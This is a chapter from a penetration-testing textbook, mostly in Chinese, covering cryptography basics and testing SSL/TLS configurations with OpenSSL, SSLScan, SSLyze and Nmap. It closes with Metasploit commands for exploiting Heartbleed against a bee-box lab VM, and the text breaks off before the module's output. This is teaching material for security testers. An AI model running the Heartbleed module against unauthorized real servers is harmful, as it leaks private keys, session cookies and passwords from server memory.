## 8
攻击加密实现的缺陷

信息安全的主要目标之一是保护数据的机密性。在 Web 应用程序中，目标是确保用户和应用程序之间交换的数据是安全且对任何第三方隐藏的。存储在服务器上的数据也需要防止黑客入侵。密码学，即通过和破译秘密书写或消息进行通信的实践，用于保护数据的机密性以及完整性。

当前标准的加密算法已由高度专业化的数学家和计算机科学家团队经过长时间的设计、测试和修正。深入研究他们的工作超出了本书的范围；此外，寻找这些算法固有的漏洞也不是本书的目标。相反，我们将专注于这些算法的某些实现，以及如何检测和利用实现失败，包括那些未经过相同级别设计和测试的自定义实现。

攻击者会尝试找到不同的方法来击败加密层并暴露明文数据。他们使用不同的技术，例如利用加密协议中的设计缺陷或诱使用户通过非加密通道发送数据，从而绕过加密本身。作为渗透测试人员，你需要了解此类技术，并能够识别加密缺失或实现有缺陷的情况，利用此类缺陷，并提出修复问题的建议。

在本章中，我们将分析密码学在 Web 应用程序中的工作原理，并探讨其实现中最常见的问题。


## 密码学入门

首先，我们需要明确区分在谈论密码学时经常被混淆的概念：加密、编码、混淆和哈希：

- **加密**：这是通过数学算法改变数据的过程，以便未授权方无法理解。授权方可以使用密钥将消息解密回明文。AES、DES、Blowfish 和 RSA 是众所周知的加密算法。
- **编码**：这也会改变消息，但其主要目标是使该消息能够被不同的系统处理。它不需要密钥，也不被认为是一种保护信息的方式。Base64 编码在现代 Web 应用中常用于通过 HTTP 传输二进制数据。
- **混淆**：这通过转换消息使原始消息更难阅读。JavaScript 代码混淆用于防止调试和/或保护知识产权，其最常见用途是在 Web 应用中。它不被认为是对第三方保护信息的方式。
- **哈希**：哈希函数是对消息内容进行计算得到一个固定长度的唯一数字。相同的消息必须始终产生相同的哈希值，且两个消息不能共享哈希值。哈希函数在理论上是不可逆的，这意味着无法从其哈希值恢复消息。由于此限制，它们可用于签名和完整性检查，但不用于存储将来需要恢复的信息。哈希函数也广泛用于存储密码。常见的哈希函数有 MD5、SHA1、SHA-512 和 bcrypt。

## 算法和模式

密码算法或密码是一种将明文通过某些计算转换为密文的算法。这些算法可以从以下两个方面进行广泛分类：

- 根据其使用公钥、私钥或共享密钥的方式，可以是 **非对称** 或 **对称**
- 根据其处理原始消息的方式，可以是 **流** 或 **分组密码**

## 非对称加密与对称加密

**非对称加密** 使用公钥-私钥组合，比对称加密更安全。公钥与所有人共享，私钥单独存储。用一个密钥加密的数据只能用另一个密钥解密，这使其非常安全且在大规模实施时高效。

**对称加密** 另一方面，使用相同的密钥加密和解密数据，你需要找到一种安全的方法与另一方共享对称密钥。

一个经常被问到的问题是，为什么不使用公钥-私钥对来加密数据流，而是生成使用对称加密的会话密钥。公钥-私钥组合是通过复杂的数学过程生成的，这是一个处理器密集且耗时的任务。因此，它仅用于验证端点并生成和保护会话密钥，然后该会话密钥用于对称加密以加密大量数据。两种加密技术的结合实现了更快、更高效的数据加密。

以下是非对称加密算法的示例：

- **Diffie-Hellman 密钥交换**：这是 1976 年开发的第一个非对称加密算法，使用有限域中的离散对数。它允许两个端点在没有事先了解彼此的情况下在不安全媒介上交换秘密密钥。
- **Rivest Shamir Adleman (RSA)**：这是最广泛使用的非对称算法。RSA 算法既用于加密数据也用于签名，提供保密性和不可否认性。该算法使用一系列模乘法来加密数据。
- **椭圆曲线密码学 (ECC)**：这主要用于智能手机等手持设备，因为其加密和解密过程所需的计算能力更少。ECC 功能与 RSA 功能相似。

## 对称加密算法

在 **对称加密** 中，使用共享密钥生成加密密钥。相同的密钥随后用于加密和解密数据。这种加密数据的方式在各种形式中已有很久的历史。它提供了一种简单的方式来加密和解密数据，因为密钥相同。对称加密简单且更容易实现，但它带来了以安全方式与用户共享密钥的挑战。

以下是一些对称算法示例：

- **数据加密标准 (DES)**：该算法使用 DEA 密码。DEA 是一种分组密码，使用 64 位密钥大小；8 位用于错误检测，56 位用于实际密钥。考虑到今天计算机的计算能力，该加密算法很容易被破解。
- **三重 DES (3DES)**：该算法对每个块应用三次 DES 算法。它使用三个 56 位密钥。
- **高级加密标准 (AES)**：该标准首次发布于 1998 年，被认为比其他对称加密算法更安全。AES 使用 Rijndael 密码，该密码由两位比利时密码学家 Joan Daemen 和 Vincent Rijmen 开发。它取代了 DES 算法。它可以配置为使用可变密钥大小，最小为 128 位，最大为 256 位。
- **Rivest Cipher 4 (RC4)**：RC4 是一种广泛使用的流密码，具有 40 到 2,048 位的可变密钥大小。RC4 有一些设计缺陷使其容易受到攻击，尽管此类攻击可能不切实际且需要大量计算能力。RC4 已广泛用于 SSL/TLS 协议中。然而，许多组织已开始改用 AES 而不是 RC4。

## 流密码和分组密码

对称算法分为两大类：

- **流密码：** 该算法一次加密单个位，因此需要更多处理能力。它还需要大量随机性，因为每个位都必须用唯一的密钥流加密。流密码更适合在硬件层实现，并用于加密流式通信，例如音频和视频，因为它可以快速加密和解密每个位。此类算法产生的密文大小与原始明文相同。
- **分组密码：** 使用该算法，原始消息被分成固定长度的块，并在最后一个块中进行填充（扩展以满足所需长度）。然后根据使用的模式独立处理每个块。我们将在后续章节中进一步讨论密码模式。分组密码产生的密文大小始终是块大小的倍数。

## 初始化向量

加密算法是 *确定性的*。这意味着相同的输入将始终产生相同的输出。这是一件好事，因为在解密时，你希望能够恢复与加密时完全相同的消息。不幸的是，这使加密变弱，因为它使其容易受到密码分析和已知文本攻击。

为应对此问题，实施了 **初始化向量 (IVs)**。IV 是每次执行算法时都不同的额外信息。它用于生成加密密钥或预处理明文，通常通过 XOR 操作。这样，如果用相同的算法和相同的密钥但不同的 IV 加密两条消息，结果密文将不同。IV 附在密文上，因为接收方事先无法知道它们。

黄金法则，尤其对于流密码，永远不要重复 IV。无线网络中 **有线等效保密 (WEP)** 身份验证的 RC4 实现使用 24 位（3 字节）IV，这允许在短时间内重复密钥流。具有已知文本，例如 DHCP 请求，通过网络多次使用相同 IV 发送，允许攻击者恢复密钥流，并且多个密钥流/IV 对可用于恢复共享密钥。

## 分组密码模式

**工作模式** 是加密算法如何使用 IV 以及如何实现对每个明文块的加密的方式。接下来，我们将讨论最常见的操作模式：

- **电子密码本 (ECB)**：使用此操作模式，不使用 IV，每个块独立加密。因此，包含相同信息的块产生相同的密文，使分析和攻击更容易。
- **密码块链接 (CBC)**：在 CBC 模式下，块按顺序加密；IV 应用于第一个块，每个块的 resulting 密文用作加密下一个块的 IV。CBC 模式密码可能容易受到填充 oracle 攻击，其中对最后一个块进行的填充可用于恢复密钥流，前提是攻击者可以恢复大量加密包，并且有一种方法可以知道包是否具有正确的填充（oracle）。
- **计数器 (CTR)**：如果实现正确，这可能是最方便和最安全的方法。块使用相同的 IV 加上每个块不同的计数器独立加密。这使得该模式能够并行处理消息的所有块，即使明文相同，每个块也具有不同的密文。


## Hashing functions

**Hashing functions** are commonly used to ensure the integrity of the message transmitted and as an identifier to determine quickly if two pieces of information are the same. A hashing function generates a fixed-length value (hash) that represents the actual data.

Hashing functions are suitable to those tasks, because, by definition, no two different pieces of information should have the same resulting hash (collision), and the original information should not be recoverable from the hash alone (that is, hashing functions are not reversible).

Some of the most common hashing functions are as follows:

- MD5 (Message Digest 5)
- SHA (Secure Hashing Algorithm) versions 1 and 2
- NT and NTLM, used by Microsoft Windows to store passwords, based on MD4

## Salt values

When used to store secrets, such as passwords, hashes are vulnerable to dictionary and brute-force attacks. An attacker that captures a set of password hashes may try to use a dictionary of known common passwords, hash them, and compare the results to the captured hashes, when looking for matches and discovering the cleartext passwords when found. Once a hash-password pair is found, all other users or accounts using the same password will also be discovered, as all hashes would be the same.

**Salt values** are used to make this task more difficult by appending a random value to the information to be hashed and causing the hashing of the same piece of data with different salts to result in different hashes. In our previous hypothetical case, an attacker recovering the plaintext for one hash would not have recovered all of the other instances of the same password automatically.

As is the case with IVs, salts are stored and sent along with the hashes.

## Secure communication over SSL/TLS

**Secure Sockets Layer (SSL)** is an encryption protocol designed to secure communications over the network. Netscape developed the SSL protocol in 1994. In 1999, the **Internet Engineering Task Force (IETF)** released the **Transport Layer Security (TLS)** protocol, superseding SSL protocol version 3. SSL is now considered insecure because of multiple vulnerabilities identified over the years. The POODLE and BEAST vulnerabilities, which we will discuss further in later sections, expose flaws in the SSL protocol itself and hence cannot be fixed with a software patch. SSL was declared deprecated by the IETF, and upgrading to TLS was suggested as the protocol to use for secure communications. The most recent version of TLS is version 1.2. We always recommend that you use the latest version of TLS and avoid allowing connections from clients using older versions or the SSL protocol.

Most websites have migrated to and have started using the TLS protocol, but the encrypted communication is still commonly referred to as an SSL connection. SSL/TLS not only provides confidentiality, but it also helps to maintain the integrity of the data and to achieve nonrepudiation.

Securing the communication between the client and the web application is the most common use of TLS/SSL, and it is known as **HTTP over SSL** or **HTTPS**. TLS is also used to secure the communication channel used by other protocols in the following ways:

- It is used by mail servers to encrypt emails between two mail servers and also between the client and the mail server
- TLS is used to secure communication between database servers and LDAP authentication servers
- It is used to encrypt **Virtual Private Network (VPN)** connections known as **SSL VPN**
- Remote desktop services in the Windows operating system use TLS to encrypt and authenticate the client connecting to the server

There are several other applications and implementations where TLS is used to secure the communication between two parties. In the following sections, we will refer to the protocol used by HTTPS as TLS and we will specify when something only applies either to SSL or TLS.

## Secure communication in web applications

TLS uses the public-private key encryption mechanism to scramble data, which helps protect it from third parties listening in on the communication. Sniffing the data over the network would only reveal the encrypted information, which is of no use without access to the corresponding key.

The TLS protocol is designed to protect the three facets of the CIA triad—confidentiality, integrity, and availability:

- **Confidentiality**: Maintaining the privacy and secrecy of the data
- **Integrity**: Maintaining the accuracy and consistency of the data, and the assurance that it is not altered in transit
- **Availability**: Preventing data loss and maintaining access to data

Web server administrators implement TLS to make sure that sensitive user information shared between the web server and the client is secure. In addition to protecting the confidentiality of the data, TLS also provides nonrepudiation using TLS certificates and digital signatures. This provides the assurance that the message is indeed sent by the party who is claiming to have sent it. This is similar to how a signature works in our day-to-day life. These certificates are signed, verified, and issued by an independent third-party known as Certificate Authority (CA). Some of the well-known certificate authorities are listed here:

- VeriSign
- Thawte
- Comodo
- DigiCert
- Entrust
- GlobalSign

If an attacker tries to fake the certificate, the browser displays a warning message informing the user that an invalid certificate is being used to encrypt the data.

Data integrity is achieved by calculating a message digest using a hashing algorithm, which is attached to the message and verified at the other end.

## TLS encryption process

Encryption is a multistep process, but it is a seamless experience for end users. The entire process can be broken down into two parts: the first part of encryption is done using the asymmetric encryption technique, and the second part is done using the symmetric encryption process. Here is a description of the major steps to encrypt and transmit data using SSL:

- 1. The handshake between the client and the server is the initial step in which the client presents the SSL/TLS version number and the encryption algorithms that it supports.
- 2. The server responds by identifying the SSL version and encryption algorithm that it supports, and both parties agree on the highest mutual value. The server also responds with the SSL certificate. This certificate contains the server's public key and general information about the server.
- 3. The client then authenticates the server by verifying the certificate against the list of root certificates stored on the local computer. The client checks with the certificate CA that the signed certificate issued to the website is stored in the list of trusted CAs. In Internet Explorer, the list of trusted CAs can be viewed by navigating to Tools | Internet options | Content | Certificates | Trusted Root Certification Authorities, as seen in the following screenshot:



- 4. Using the information shared during the handshake, the client can generate a pre-master secret for the session. It then encrypts the secret with the server's public key and sends the encrypted pre-master key back to the server.
- 5. The server decrypts the pre-master key using the private key (since it was encrypted with the public key). The server and the client then both generate a session key from the pre-master key using a series of steps. This session key encrypts the data throughout the entire session, which is called the symmetric encryption. A hash is also calculated and appended to the message, which helps test the integrity of the message.

## Identifying weak implementations of SSL/TLS

As you learned in the previous section, TLS is a combination of various encryption algorithms packaged into one in order to provide confidentiality, integrity, and authentication. In the first step, when two endpoints negotiate for an SSL connection, they identify the common cipher suites supported by them. This allows SSL to support a wide variety of devices, which may not have the hardware and software to support the newer ciphers. Supporting older encryption algorithms has a major drawback. Most older cipher suites are easily breakable in a reasonable amount of time by cryptanalysts using the computing power available today.

## The OpenSSL command-line tool

In order to identify the cipher suites negotiated by the remote web server, you can use the OpenSSL command-line tool that comes preinstalled on all major Linux distributions, and it is also included in Kali Linux. The tool can be used to test the various functions of the OpenSSL library directly from the bash shell without writing any code. It is also used as a troubleshooting tool.

OpenSSL is a well-known library used in Linux to implement the SSL protocol, and Secure channel (Schannel) is a provider of the SSL functionality in Windows.


以下示例使用 s_client 命令行选项，该选项使用 SSL/TLS 建立与远程服务器的连接。对新手来说，该命令的输出难以解读，但它对于识别服务器与客户端之间协商的 TLS/SSL 版本和密码套件很有用：



OpenSSL 实用程序包含各种命令行选项，可用于使用特定的 SSL 版本和密码套件测试服务器。在以下示例中，我们尝试使用 TLS 版本 1.2 和一种弱算法 RC4 进行连接：

```
openssl s_client -tls1_2 -cipher 'ECDHE-RSA-AES256-SHA' -connect <target>:<port>
```

以下屏幕截图显示了命令的输出。由于客户端无法与 ECDHE-RSA-AES256-SHA 密码套件协商，因此握手失败，未选择任何密码：



在以下屏幕截图中，我们尝试与服务器协商一种弱加密算法。它失败了，因为 Google 已正确在服务器上禁用了弱密码套件：

```
root@kali:~# openssl s_client -tls1_2 -cipher "NULL,EXPORT,LOW,DES" -connect www.google.com:443
CONNECTED(00000003)
139783222056192:error:141640B5:SSL routines:tls_construct_client_hello:no ciphers available:../ssl/m/state_m_clnt.c:800:
---
no peer certificate available
---
No client certificate CA names sent
---
SSL handshake has read 0 bytes and written 0 bytes
Verification: OK
---
New, (NONE), Cipher is (NONE)
Secure Renegotiation IS NOT supported
Compression: NONE
Expansion: NONE
No ALPN negotiated
SSL-Session:
    Protocol  : TLSv1.2
    Cipher    : 0000
    Session-ID:
    Session-ID-ctx:
    Master-Key:
    PSK identity: None
    PSK identity hint: None
    SRP username: None
    Start Time: 1517833355
    Timeout   : 7200 (sec)
    Verify return code: 0 (ok)
    Extended master secret: no
---
```

要查找出使用当前可用计算能力即可轻易破解的密码套件，请输入以下屏幕截图中所示的命令：

```
root@kali:~# openssl ciphers -v "NULL,EXPORT,LOW,DES"
ECDHE-ECDSA-NULL-SHA    TLSv1 Kx=ECDH   Au=ECDSA Enc=None  Mac=SHA1
ECDHE-RSA-NULL-SHA      TLSv1 Kx=ECDH   Au=RSA   Enc=None  Mac=SHA1
AECDH-NULL-SHA          TLSv1 Kx=ECDH   Au=None  Enc=None  Mac=SHA1
NULL-SHA256             TLSv1.2 Kx=RSA  Au=RSA   Enc=None  Mac=SHA256
ECDHE-PSK-NULL-SHA384   TLSv1 Kx=ECDHEPSK Au=PSK   Enc=None  Mac=SHA384
ECDHE-PSK-NULL-SHA256   TLSv1 Kx=ECDHEPSK Au=PSK   Enc=None  Mac=SHA256
ECDHE-PSK-NULL-SHA      TLSv1 Kx=ECDHEPSK Au=PSK   Enc=None  Mac=SHA1
RSA-PSK-NULL-SHA384     TLSv1 Kx=RSAPSK Au=RSA   Enc=None  Mac=SHA384
RSA-PSK-NULL-SHA256     TLSv1 Kx=RSAPSK Au=RSA   Enc=None  Mac=SHA256
DHE-PSK-NULL-SHA384     TLSv1 Kx=DHEPSK Au=PSK   Enc=None  Mac=SHA384
DHE-PSK-NULL-SHA256     TLSv1 Kx=DHEPSK Au=PSK   Enc=None  Mac=SHA256
RSA-PSK-NULL-SHA        SSLv3 Kx=RSAPSK Au=RSA   Enc=None  Mac=SHA1
DHE-PSK-NULL-SHA        SSLv3 Kx=DHEPSK Au=PSK   Enc=None  Mac=SHA1
NULL-SHA                SSLv3 Kx=RSA    Au=RSA   Enc=None  Mac=SHA1
NULL-MD5                SSLv3 Kx=RSA    Au=RSA   Enc=None  Mac=MD5
PSK-NULL-SHA384         TLSv1 Kx=PSK    Au=PSK   Enc=None  Mac=SHA384
PSK-NULL-SHA256         TLSv1 Kx=PSK    Au=PSK   Enc=None  Mac=SHA256
PSK-NULL-SHA            SSLv3 Kx=PSK    Au=PSK   Enc=None  Mac=SHA1
```

你经常会看到密码套件写成 **ECDHE-RSA-RC4-MD5**。其格式可分解为以下几部分：

- **ECDHE**：这是一种密钥交换算法
- **RSA**：这是一种身份验证算法
- **RC4**：这是一种加密算法
- **MD5**：这是一种哈希算法

SSL 和 TLS 密码套件的完整列表可在 https://www.openssl.org/docs/apps/ciphers.html 找到。

## SSLScan

尽管 OpenSSL 命令行工具提供了许多用于测试 SSL 配置的选项，但该工具的输出并不友好。该工具还要求对要测试的密码套件有相当多的了解。

Kali Linux 附带了许多工具，可自动执行识别 SSL 配置错误、过时协议版本以及弱密码套件和哈希算法的任务。其中一个工具是 **SSLScan**，可通过 **应用程序 | 信息收集 | SSL 分析** 访问。

默认情况下，SSLScan 会检查服务器是否易受 CRIME 和 Heartbleed 漏洞的影响。`-tls` 选项将强制 SSLScan 仅使用 TLS 协议测试密码套件。

输出以各种颜色分布，其中绿色表示密码套件安全，而红色和黄色部分则试图引起你的注意：



客户端支持的密码套件可通过运行以下命令来识别。它将显示客户端支持的长密码列表：

```
sslscan -show-ciphers www.example.com:443
```

如果要分析证书相关数据，请使用以下命令，它将显示证书的详细信息：

```
sslscan --show-certificate --no-ciphersuites www.amazon.com:443
```

命令的输出可使用 -xml=<filename> 选项导出为 XML 文档。

请注意支持的密码名称中出现的 NULL。如果选择了 NULL 密码，SSL/TLS 握手将完成，浏览器将显示安全挂锁，但 HTTP 数据将以明文传输。

## SSLyze

另一个随 Kali Linux 提供的、有助于分析 SSL 配置的有趣工具是 iSEC Partners 发布 的 SSLyze 工具。该工具托管在 GitHub 上的 https://github.com/iSECPartners/sslyze ，可在 Kali Linux 中在 应用程序 | 信息收集 | SSL 分析 中找到。SSLyze 用 Python 编写。

该工具附带了各种插件，可帮助测试以下内容：

- 检查旧版本的 SSL
- 分析密码套件并识别弱密码
- 使用输入文件扫描多个服务器
- 检查会话恢复支持

使用 -regular 选项可包含你可能感兴趣的所有常见选项，例如测试所有可用协议（SSL 版本 2 和 3 以及 TLS 1.0、1.1 和 1.2）、测试不安全的密码套件以及识别是否启用了压缩。

在以下示例中，服务器不支持压缩，并且易受 Heartbleed 攻击。输出还列出了接受的密码套件：

```
SCAN RESULTS FOR 10.7.7.8:8443 - 10.7.7.8:8443
------------------------------------------------
* Session Renegotiation:
    Client-initiated Renegotiations:  OK - Rejected
    Secure Renegotiation:            OK - Supported
* Deflate Compression:
    OK - Compression disabled
* Session Resumption:
    With Session IDs:                NOT SUPPORTED (0 successful, 5 failed, 0 errors
    With TLS Session Tickets:        OK - Supported
* OpenSSL Heartbleed:
    VULNERABLE - Server is vulnerable to Heartbleed
* TLSV1_2 Cipher Suites:
    Preferred:
        ECDHE-RSA-AES256-GCM-SHA384    ECDH-256 bits  256 bits    HTTP 200 OK
    Accepted:
        ECDHE-RSA-AES256-SHA384        ECDH-256 bits  256 bits    HTTP 200 OK
        ECDHE-RSA-AES256-SHA            ECDH-256 bits  256 bits    HTTP 200 OK
        ECDHE-RSA-AES256-GCM-SHA384     ECDH-256 bits  256 bits    HTTP 200 OK
        DHE-RSA-CAMELLIA256-SHA         DH-1024 bits    256 bits    HTTP 200 OK
        DHE-RSA-AES256-SHA256           DH-1024 bits    256 bits    HTTP 200 OK
        DHE-RSA-AES256-SHA              DH-1024 bits    256 bits    HTTP 200 OK
        DHE-RSA-AES256-GCM-SHA384       DH-1024 bits    256 bits    HTTP 200 OK
        CAMELLIA256-SHA                 -               256 bits    HTTP 200 OK
        AES256-SHA256                   -               256 bits    HTTP 200 OK
        AES256-SHA                      -               256 bits    HTTP 200 OK
        AES256-GCM-SHA384               -               256 bits    HTTP 200 OK
        ECDHE-RSA-AES128-SHA256         ECDH-256 bits   128 bits    HTTP 200 OK
        ECDHE-RSA-AES128-SHA            ECDH-256 bits   128 bits    HTTP 200 OK
        ECDHE-RSA-AES128-GCM-SHA256     ECDH-256 bits   128 bits    HTTP 200 OK
        DHE-RSA-CAMELLIA128-SHA         DH-1024 bits    128 bits    HTTP 200 OK
        DHE-RSA-AES128-SHA256           DH-1024 bits    128 bits    HTTP 200 OK
```

## 使用 Nmap 测试 SSL 配置

Nmap 包含一个名为 ssl-enum-ciphers 的脚本，可识别服务器支持的密码套件，并根据其密码强度对其进行评级。它使用 SSLv3、TLS 1.1 和 TLS 1.2 进行多次连接。还有可识别已知漏洞（例如 Heartbleed 或 POODLE）的脚本。


我们将使用三个脚本对目标（bee-box v1.6, https://sourceforge.net/projects/bwapp/files/bee-box/）运行 Nmap：ssl-enum-ciphers，用于列出服务器允许的所有密码套件；ssl-heartbleed 和 ssl-poodle，用于测试这些特定的漏洞：



此第一张截图显示了 ssl-enum-ciphers 的结果，显示了允许用于 SSLv3 的密码套件。在下一张截图中，ssl-heartbleed 脚本显示服务器存在漏洞：

```
ssl-heartbleed:
  VULNERABLE:
    The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
    State: VULNERABLE
    Risk factor: High
    OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
    References:
    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
    http://www.openssl.org/news/secadv_20140407.txt
    http://cvedetails.com/cve/2014-0160/
```

此外，ssl-poodle 脚本将服务器识别为易受 POODLE 攻击：

```
ssl-poodle:
  VULNERABLE:
    SSL POODLE information leak
    State: VULNERABLE
    IDs: CVE-CVE-2014-3566 OSVDB:113251
    The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other products, uses nondeterministic CBC padding, which makes it easier for man-in-the-middle attackers to obtain cleartext data via a padding-oracle attack, aka the "POODLE" issue.
    Disclosure date: 2014-10-14
    Check results:
      TLS_RSA_WITH_AES_128_CBC_SHA
    References:
    https://www.openssl.org/~bodo/ssl-poodle.pdf
    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
    https://www.imperialviolet.org/2014/10/14/poodle.html
    http://osvdb.org/113251
MAC Address: 08:00:27:06:68:C5 (Oracle VirtualBox virtual NIC)
```

## 利用 Heartbleed

Heartbleed 于 2014 年 4 月被发现。它是 OpenSSL TLS 实现中的缓冲区溢读情况；即可以读取超出允许范围的内存数据。这种情况允许攻击者以明文形式读取 OpenSSL 服务器的内存信息。这意味着无需解密或甚至拦截客户端与服务器之间的任何通信；你只需询问服务器其内存中的内容，它就会用未加密的信息作出回答。

实际上，Heartbleed 可以在任何未修补的 OpenSSL 服务器上被利用（版本 1.0.1 至 1.0.1f 以及 1.0.2-beta 至 1.0.2-beta1），并且支持 TLS，通过利用可从服务器内存中读取多达 64 KB 的明文数据。这可以重复进行，并且不会在服务器上留下任何痕迹或日志。这意味着攻击者可能能够读取服务器上的明文信息，例如服务器的私钥或加密证书、会话 cookie，或可能包含用户密码和其他敏感信息的 HTTPS 请求。有关 Heartbleed 的更多信息可以在其维基百科页面 https://en.wikipedia.org/wiki/Heartbleed 上找到。

我们将使用 Metasploit 模块来利用 bee-box 中的 Heartbleed 漏洞。首先，你需要打开 Metasploit 控制台并加载模块：

```
msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
```

使用 show options 命令，你可以看到模块运行所需的参数。

让我们设置要攻击的主机和端口并运行模块。请注意，此模块可以同时针对多个主机运行，只需在 RHOSTS 选项中输入以空格分隔的 IP 地址和主机名列表即可：

```
show options
set RHOSTS 10.7.7.8
set RPORT 8443
run
```

以下执行的脚本显示服务器存在漏洞：

